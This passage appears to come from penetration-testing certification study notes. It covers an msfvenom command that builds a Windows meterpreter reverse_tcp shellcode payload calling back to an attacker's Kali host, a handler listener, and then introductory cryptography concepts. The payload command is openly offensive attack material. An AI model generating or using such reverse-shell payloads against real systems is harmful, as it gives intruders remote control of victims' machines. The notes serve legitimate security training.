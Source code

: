 ***

example 2 : reverse interactive meterpreter session

```
msfvenom -p windows/meterpreter/reverse_tcp lhost=<kali ip> lport=<port> -f c

	-p = windows/meterpreter/reverse_tcp = tell msfvenom the payload to use
	LHOST=<host IP> : sets the IP address For the connect back of the payload
	LPORT=<port> : sets the port For the connect back of the payload
	-f c : the output format of the shellcode
```

> We should open a listener in msfconsole > exploit/multi/handler

![Alt text](https://johnermac.github.io/assets/images/posts/2023-11-19-ecppt/6.png)

## Cryptography and Password Cracking <a href="#cryptography-and-password-cracking" id="cryptography-and-password-cracking"></a>

* The art of share information in a secret manner

![Alt text](https://johnermac.github.io/assets/images/posts/2023-11-19-ecppt/16.png)

Encryption is the process of transforming a message into a ciphertext. Decryption is the process of retrieving the original message from a ciphertext by using the correct key

### 4 main issues: <a href="#id-4-main-issues" id="id-4-main-issues"></a>

```
Authentication: claims made by or about the subject are true
Confidentiality: information is accessible only to those authorized to have access
Integrity: message has not been manipulated/altered in the transfer
Non-Repudiation: ensuring that a party in a dispute cannot repudiate, or refute the validity of a statement
```

### Classification of Crypto-Algorithms <a href="#classification-of-crypto-algorithms" id="classification-of-crypto-algorithms"></a>

#### Use of keys <a href="#use-of-keys" id="use-of-keys"></a>

```
Symmetric-key cryptography
Public-key cryptography ### Handling of Data
Block Cipher
	ECB
	CBC
Stream Cipher
```

